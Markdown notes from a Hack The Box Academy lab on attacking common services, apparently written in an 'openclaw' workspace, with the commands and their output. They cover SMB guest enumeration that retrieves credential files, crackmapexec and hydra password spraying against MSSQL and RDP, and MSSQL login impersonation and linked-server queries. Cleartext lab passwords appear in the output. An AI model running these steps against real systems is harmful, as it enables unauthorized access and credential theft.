

# Notes

The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

## 1433 MSSQL

Default creds didn't work. Tried the following:

* sa:
* sa:sa
* sa:password


```bash
└─$ impacket-mssqlclient sa@10.129.203.10
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Encryption required, switching to TLS
[-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ impacket-mssqlclient sa@10.129.203.10
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Encryption required, switching to TLS
[-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ impacket-mssqlclient sa@10.129.203.10
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Encryption required, switching to TLS
[-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```

# 445 SMB

Guest might have potential

```bash
┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec smb 10.129.203.10 -u '' -p ''
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\: STATUS_ACCESS_DENIED

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec smb 10.129.203.10 -u guest -p ''
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\guest:

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ smbclient -L //10.129.203.10/ -N # list shares

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Home            Disk
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.203.10 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

Enumerating as guest

```
└─$ smbclient //10.129.203.10/Home -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 22 05:18:21 2022
  ..                                  D        0  Fri Apr 22 05:18:21 2022
  HR                                  D        0  Fri Apr 22 04:04:39 2022
  IT                                  D        0  Fri Apr 22 04:11:44 2022
  OPS                                 D        0  Fri Apr 22 04:05:10 2022
  Projects                            D        0  Fri Apr 22 04:04:48 2022
```

```
└─$ smbclient //10.129.203.10/Home -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 22 05:18:21 2022
  ..                                  D        0  Fri Apr 22 05:18:21 2022
  HR                                  D        0  Fri Apr 22 04:04:39 2022
  IT                                  D        0  Fri Apr 22 04:11:44 2022
  OPS                                 D        0  Fri Apr 22 04:05:10 2022
  Projects                            D        0  Fri Apr 22 04:04:48 2022

                7706623 blocks of size 4096. 3169516 blocks available
smb: \> cd HR
smb: \HR\> dir
  .                                   D        0  Fri Apr 22 04:04:39 2022
  ..                                  D        0  Fri Apr 22 04:04:39 2022

                7706623 blocks of size 4096. 3169516 blocks available
smb: \HR\> cd ..\IT
smb: \IT\> dir
  .                                   D        0  Fri Apr 22 04:11:44 2022
  ..                                  D        0  Fri Apr 22 04:11:44 2022
  Fiona                               D        0  Fri Apr 22 04:11:53 2022
  John                                D        0  Fri Apr 22 05:15:09 2022
  Simon                               D        0  Fri Apr 22 05:16:07 2022

                7706623 blocks of size 4096. 3169516 blocks available
smb: \IT\> cd Fiona
smb: \IT\Fiona\> dir
  .                                   D        0  Fri Apr 22 04:11:53 2022
  ..                                  D        0  Fri Apr 22 04:11:53 2022
  creds.txt                           A      118  Fri Apr 22 04:13:11 2022

                7706623 blocks of size 4096. 3169450 blocks available
smb: \IT\Fiona\> get creds.txt
getting file \IT\Fiona\creds.txt of size 118 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \IT\Fiona\> cd ..\John
smb: \IT\John\> dir
  .                                   D        0  Fri Apr 22 05:15:09 2022
  ..                                  D        0  Fri Apr 22 05:15:09 2022
  information.txt                     A      101  Fri Apr 22 05:14:58 2022
  notes.txt                           A      164  Fri Apr 22 05:13:40 2022
  secrets.txt                         A       99  Fri Apr 22 05:15:55 2022

smb: \IT\Fiona\> get creds.txt
getting file \IT\Fiona\creds.txt of size 118 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \IT\Fiona\> cd ..\John
smb: \IT\John\> dir
  .                                   D        0  Fri Apr 22 05:15:09 2022
  ..                                  D        0  Fri Apr 22 05:15:09 2022
  information.txt                     A      101  Fri Apr 22 05:14:58 2022
  notes.txt                           A      164  Fri Apr 22 05:13:40 2022
  secrets.txt                         A       99  Fri Apr 22 05:15:55 2022

                7706623 blocks of size 4096. 3169450 blocks available
smb: \IT\John\> get information.txt notes.txt secrets.txt
getting file \IT\John\information.txt of size 101 as notes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \IT\John\> get notes.txt
getting file \IT\John\notes.txt of size 164 as notes.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \IT\John\> get secrets.txt
getting file \IT\John\secrets.txt of size 99 as secrets.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)

smb: \IT\John\> get secrets.txt
getting file \IT\John\secrets.txt of size 99 as secrets.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \IT\John\> cd ..\Simon
smb: \IT\Simon\> dir
  .                                   D        0  Fri Apr 22 05:16:07 2022
  ..                                  D        0  Fri Apr 22 05:16:07 2022
  random.txt                          A       94  Fri Apr 22 05:16:48 2022

                7706623 blocks of size 4096. 3169435 blocks available
smb: \IT\Simon\> get random.txt
getting file \IT\Simon\random.txt of size 94 as random.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \IT\Simon\> cd..
cd..: command not found
smb: \IT\Simon\> cd  ..
smb: \IT\> dir
  .                                   D        0  Fri Apr 22 04:11:44 2022
  ..                                  D        0  Fri Apr 22 04:11:44 2022
  Fiona                               D        0  Fri Apr 22 04:11:53 2022
  John                                D        0  Fri Apr 22 05:15:09 2022
  Simon                               D        0  Fri Apr 22 05:16:07 2022

                7706623 blocks of size 4096. 3169435 blocks available
smb: \IT\> cd ..
smb: \> dir
  .                                   D        0  Fri Apr 22 05:18:21 2022
  ..                                  D        0  Fri Apr 22 05:18:21 2022
  HR                                  D        0  Fri Apr 22 04:04:39 2022
  IT                                  D        0  Fri Apr 22 04:11:44 2022
  OPS                                 D        0  Fri Apr 22 04:05:10 2022
  Projects                            D        0  Fri Apr 22 04:04:48 2022

                7706623 blocks of size 4096. 3169435 blocks available
smb: \> cd OPS
smb: \OPS\> dir
  .                                   D        0  Fri Apr 22 04:05:10 2022
  ..                                  D        0  Fri Apr 22 04:05:10 2022

                7706623 blocks of size 4096. 3169435 blocks available
smb: \OPS\> cd ..\Projects
smb: \Projects\> dir
  .                                   D        0  Fri Apr 22 04:04:48 2022
  ..                                  D        0  Fri Apr 22 04:04:48 2022

                7706623 blocks of size 4096. 3169435 blocks available
smb: \Projects\>
```


### 1433 MSQQL with different users

Trying to bruteforce with different users and [passwords extracted from SMB shares](./server3_passwords.txt)


```
└─$ crackmapexec mssql 10.129.203.10 -u fiona -p server3_passwords.txt --local-auth
MSSQL       10.129.203.10   1433   WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 (name:WIN-HARD) (domain:WIN-HARD)
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'fiona'

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec mssql 10.129.203.10 -u john -p server3_passwords.txt --local-auth
MSSQL       10.129.203.10   1433   WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 (name:WIN-HARD) (domain:WIN-HARD)
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'john'.

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec mssql 10.129.203.10 -u simon -p server3_passwords.txt --local-auth
MSSQL       10.129.203.10   1433   WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 (name:WIN-HARD) (domain:WIN-HARD)
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'simon'.

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec mssql 10.129.203.10 -u sa -p server3_passwords.txt --local-auth
MSSQL       10.129.203.10   1433   WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 (name:WIN-HARD) (domain:WIN-HARD)
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
MSSQL       10.129.203.10   1433   WIN-HARD         [-] ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```

## 3389 RDP

```
└─$ run hydra -l fiona -P server3_passwords.txt rdp://10.129.203.10 -t 4
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-22 21:42:03
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 15 login tries (l:1/p:15), ~4 tries per task
[DATA] attacking rdp://10.129.203.10:3389/
[3389][rdp] account on 10.129.203.10 might be valid but account not active for remote desktop: login: fiona password: 48Ns72!bns74@S84NNNSl, continuing attacking the account.
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] account on 10.129.203.10 might be valid but account not active for remote desktop: login: fiona password: (DK02ka-dsaldS, continuing attacking the account.
[ERROR] freerdp: The connection failed to establish.
[ERROR] freerdp: The connection failed to establish.
[ERROR] freerdp: The connection failed to establish.
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-22 21:42:16
📋 Logged: /home/openclaw/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data/cmd_20260422_214203.log

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ hydra -l john -P server3_passwords.txt rdp://10.129.203.10 -t 4
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-22 21:43:09
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 15 login tries (l:1/p:15), ~4 tries per task
[DATA] attacking rdp://10.129.203.10:3389/
[3389][rdp] account on 10.129.203.10 might be valid but account not active for remote desktop: login: john password: SecurePassword!, continuing attacking the account.
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-22 21:43:12

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ hydra -l simon -P server3_passwords.txt rdp://10.129.203.10 -t 4
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-22 21:43:39
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 15 login tries (l:1/p:15), ~4 tries per task
[DATA] attacking rdp://10.129.203.10:3389/
[ERROR] freerdp: The connection failed to establish.
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-22 21:43:40
```

## 445 SMB with Simon and Fiona

```
┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec smb 10.129.203.10 -u fiona -p '48Ns72!bns74@S84NNNSl'
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/attacking-common-services-easy/raw_data]
└─$ crackmapexec smb 10.129.203.10 -u john -p 'SecurePassword!'
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\john:SecurePassword!
```

## 3389 RDP as fiona and john

`fiona` creds from smb tseting worked, `john` didn't.



### Fiona RDP enum


Reveals more users

```
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72

 Directory of C:\Users

04/25/2022  11:50 AM    <DIR>          .
04/25/2022  11:50 AM    <DIR>          ..
04/20/2022  05:38 AM    <DIR>          Administrator
04/22/2022  05:33 AM    <DIR>          Fiona
10/06/2021  12:31 PM    <DIR>          lab_adm
04/20/2022  09:05 AM    <DIR>          mssqlsvc
10/06/2021  03:46 PM    <DIR>          Public
04/25/2022  11:50 AM    <DIR>          technicalsupport
               0 File(s)              0 bytes
               8 Dir(s)  12,955,746,304 bytes free
```

Can't access `Administrator`

```
C:\Users>cd Administrator
Access is denied.
```

I tried UAC for `cmd` as `fiona`. It didn't work. Fiona's creds can't elevate `cmd`.


```
C:\Users>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
WIN-HARD\Database Readers              Alias            S-1-5-21-4146269335-928890532-3128802874-1010 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON  Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

C:\Users>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

```
C:\Users>net users

User accounts for \\WIN-HARD

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Fiona
Guest                    mssqlsvc                 WDAGUtilityAccount
The command completed successfully.
```

```
C:\Users>net users

User accounts for \\WIN-HARD

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Fiona
Guest                    mssqlsvc                 WDAGUtilityAccount
The command completed successfully.
```

```
C:\Users>net groups
This command can be used only on a Windows Domain Controller.

More help is available by typing NET HELPMSG 3515.


C:\Users>cmdkey /list

Currently stored credentials:

* NONE *
```

### 1433 (MSQSQL) using fiona creds

```
└─$ impacket-mssqlclient 'WIN-HARD/fiona:48Ns72!bns74@S84NNNSl@10.129.203.10' -windows-auth
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN-HARD\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(WIN-HARD\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (WIN-HARD\Fiona  guest@master)>
```

```
SQL (WIN-HARD\Fiona  guest@master)> SELECT SYSTEM_USER;

--------------
WIN-HARD\Fiona
SQL (WIN-HARD\Fiona  guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin');

-
0
SQL (WIN-HARD\Fiona  guest@master)> SELECT IS_SRVROLEMEMBER('db_owner');

----
NULL
SQL (WIN-HARD\Fiona  guest@master)> SELECT IS_SRVROLEMEMBER('public');

-
1
SQL (WIN-HARD\Fiona  guest@master)> SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
class   class_desc         major_id   minor_id   grantee_principal_id   grantor_principal_id   type   permission_name   state   state_desc
-----   ----------------   --------   --------   --------------------   --------------------   ----   ---------------   -----   ----------
  101   SERVER_PRINCIPAL        272          0                    269                    272   b'IM  '   IMPERSONATE        b'G'   GRANT
  101   SERVER_PRINCIPAL        273          0                    269                    273   b'IM  '   IMPERSONATE        b'G'   GRANT
SQL (WIN-HARD\Fiona  guest@master)>

SQL (WIN-HARD\Fiona  guest@master)> SELECT srvname, isremote FROM sysservers;
srvname                 isremote
---------------------   --------
WINSRV02\SQLEXPRESS            1
LOCAL.TEST.LINKED.SRV          0
SQL (WIN-HARD\Fiona  guest@master)>

SQL (WIN-HARD\Fiona  guest@master)> SELECT name FROM sys.databases WHERE HAS_DBACCESS(name) = 1;
name
---------
master
tempdb
msdb
TestingDB
SQL (WIN-HARD\Fiona  guest@master)>
```

Check users who fiona can impersonate

```
SQL (WIN-HARD\Fiona  WIN-HARD\Fiona@TestingDB)> SELECT principal_id, name, type_desc, is_disabled FROM sys.server_principals WHERE principal_id IN (272, 273);
principal_id   name    type_desc   is_disabled
------------   -----   ---------   -----------
         272   john    SQL_LOGIN             0
         273   simon   SQL_LOGIN             0
```

Try to impersonate `john`

```
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE AS LOGIN = 'john';
SQL (john  guest@master)> SELECT SYSTEM_USER;

----
john
SQL (john  guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin');

-
0
```

Try to impersonate `simon`

```
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE AS LOGIN = 'simon';
SQL (simon  guest@master)> SELECT SYSTEM_USER;

-----
simon
SQL (simon  guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin');

-
0
SQL (simon  guest@master)>
```

Checking linked servers

```
SQL (WIN-HARD\Fiona  guest@master)> EXEC sp_helplinkedsrvlogin;
Linked Server   Local Login   Is Self Mapping   Remote Login
-------------   -----------   ---------------   ------------
SQL (WIN-HARD\Fiona  guest@master)> SELECT srvname, srvproduct, providername, datasource, location, providerstring FROM sysservers WHERE isremote = 1;
srvname               srvproduct   providername   datasource            location   providerstring
-------------------   ----------   ------------   -------------------   --------   --------------
WINSRV02\SQLEXPRESS   SQL Server   SQLOLEDB       WINSRV02\SQLEXPRESS   NULL       NULL

SQL (WIN-HARD\Fiona  guest@master)> EXECUTE AS LOGIN = 'john';
SQL (john  guest@master)> SELECT * FROM OPENQUERY([LOCAL.TEST.LINKED.SRV], 'SELECT SYSTEM_USER');

---------
testadmin
